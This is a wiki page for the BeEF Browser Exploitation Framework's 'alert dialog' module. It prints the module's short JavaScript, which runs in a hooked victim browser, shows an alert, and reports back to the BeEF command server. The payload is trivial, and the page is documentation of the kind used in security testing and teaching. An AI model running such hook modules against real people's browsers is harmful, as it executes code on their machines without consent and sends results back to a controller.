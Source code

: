 ## Summary
* **Objective**: Sends an alert dialog to the hooked browser.
* **Date**: ???
* **Authors**: wade, bm
* **Browsers**: All
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/alert_dialog]]

## Internal Working

Really basic, here is the whole code :
```javascript
beef.execute(function() {
alert("<%== format_multiline(@text) %>");

beef.net.send("<%= @command_url %>", <%= @command_id %>, "text=<%== format_multiline(@text) %>");
});
```

## Screenshots

[[Images/module-alert-dialog1.png|align=center]]

[[Images/module-alert-dialog2.png|align=center]]

## Feedback

* So basic, that it should work on any browser any version.


